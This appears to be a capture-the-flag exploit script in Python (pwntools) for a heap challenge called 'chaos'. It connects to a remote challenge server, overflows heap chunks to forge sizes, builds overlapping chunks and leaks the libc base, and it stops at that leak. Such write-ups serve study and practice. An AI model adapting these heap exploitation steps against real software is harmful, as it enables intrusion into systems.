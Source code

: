 ### chaos

```python
from pwn import*
r=remote('8.134.37.86',23349)
#r=process('./main')
context.log_level='debug'

libc=ELF('./libc-2.27.so')

def new(size,content):
	payload=''
	payload+='passwd:Cr4at3 \n'
	payload+='opcode:1\n\n'
	r.recvuntil('>>> ')
	r.send(payload)
	r.recvuntil('>>> ')
	r.sendline(str(size))
	r.recvuntil('>>> ')
	r.send(content)

def show(idx):
	payload=''
	payload+='passwd:SH0w \n'
	payload+='opcode:2\n\n'
	r.recvuntil('>>> ')
	r.send(payload)
	r.recvuntil('>>> ')
	r.sendline(str(idx))

def edit(idx,content):
	payload=''
	payload+='passwd:Ed1t \n'
	payload+='opcode:3\n\n'
	r.recvuntil('>>> ')
	r.send(payload)
	r.recvuntil('>>> ')
	r.sendline(str(idx))
	r.recvuntil('>>> ')
	r.send(content)

def delete(idx):
	payload=''
	payload+='passwd:D3l4te \n'
	payload+='opcode:4\n\n'
	r.recvuntil('>>> ')
	r.send(payload)
	r.recvuntil('>>> ')
	r.sendline(str(idx))

new(0x208,'a'*0x200+p64(0x1000))
new(0x208,'\n')
new(0x208,'\n')
#new(0x208,'\n')

edit(2,'a'*0x200+p64(0x1000)+'a'*0x10+p64(0x21)+'a'*0x18+p64(0x461))
delete(1)

new(0x208,'\n')

show(0)

libc_base=u64(r.recvuntil('\x7f')+p16(0))-0x3ebc0a
```